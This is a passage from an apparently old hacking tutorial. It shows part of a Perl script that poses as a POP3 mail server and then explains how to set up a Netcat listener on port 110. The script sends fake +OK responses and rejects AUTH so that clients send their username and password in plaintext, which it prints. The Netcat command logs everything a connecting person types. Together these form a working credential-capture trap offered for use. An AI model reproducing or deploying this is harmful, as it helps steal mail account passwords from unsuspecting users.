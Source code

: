 else
        {
         print "Dont know what client wants sending bluff +ok\n";
         print NS "+OK\n";
         bluffothers();
        }
}
#--------------------------------------
sub getuserandpass {
    $user = <NS>;
    $user =~ s/\s//g;
    if ($user eq 'AUTH')
        {
         print NS "-ERR USER or QUIT\n";
         print "Client wants AUTH? Sent error message :)\n";
         getuserandpass()
        }
     else
        {
         print $user, "\n";
         print NS "+OK Pass\n";
         $pass = <NS>;
         print $pass;
         print NS "+OK Maildrop has 0 messages (0 octets)\n";
        }
}

_________________________________

 

Now, say you do not want to run the above program or somehow do not like the idea of working with port listener, then, you can use a very interesting tool by L0pht.com called Netcat. This tool is really very amazing and before you read this manual further, I suggest you read its documentation at l0pht.com as I will not be discussing it’s various interesting options in this manual.

 

Anyway, the following command will create a simple Port Listener sort of utility, which will listen to the specified port and will record all data sent to it, in the log file specified.

 

C:\>nc –l –p xx > file

 

Where xx is the port number, which has to be listened, and file is the path of log file, where all keystrokes or everything entered by the person who connected to Port xx are recorded. 

 

Note: The ‘-l’ option listens for connections, while ‘-p xx’ is used to specify the port to which you want Netcat to bind to.

 

Now, in our case, we want to bind Netcat to Port 110, listen for connections and record all keystrokes, so we use the following command:
